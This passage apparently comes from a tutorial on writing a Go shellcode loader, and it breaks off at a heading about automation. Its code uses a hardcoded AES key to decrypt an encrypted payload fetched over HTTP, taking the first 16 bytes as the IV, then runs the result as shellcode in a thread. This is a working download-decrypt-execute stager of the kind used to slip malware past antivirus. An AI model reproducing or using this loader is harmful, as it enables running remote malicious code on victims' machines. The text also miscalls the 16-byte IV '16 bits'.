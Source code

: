 We only need to add two line here

- Our key
- Decrypt, first 16 bits of `body` is the `iv`, all after 16bits is our shellcode, neat!

``` go
	key := []byte("abcdefghijklmnop")
	...
	body, err := io.ReadAll(resp.Body)
	if err != nil {
		fmt.Println(err)
	}

	sc := run.Decrypt(body[16:], key, body[:16])
	run.ThreadRun(sc)
```

Now let's compile and test it again see if magic happens!

![aes](aes.png)

## Automate this thing

